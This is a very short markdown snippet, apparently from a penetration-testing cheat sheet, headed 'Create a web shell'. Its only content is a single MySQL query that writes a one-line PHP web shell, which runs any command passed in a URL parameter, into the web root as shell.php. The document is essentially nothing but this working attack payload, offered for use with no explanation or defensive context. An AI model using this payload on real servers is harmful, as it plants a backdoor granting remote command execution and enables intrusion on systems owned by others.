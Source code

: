 # Create a web shell

## MySQL
```sql
SELECT "<?php system($_GET['c']); ?>" into outfile "/var/www/html/shell.php"
```
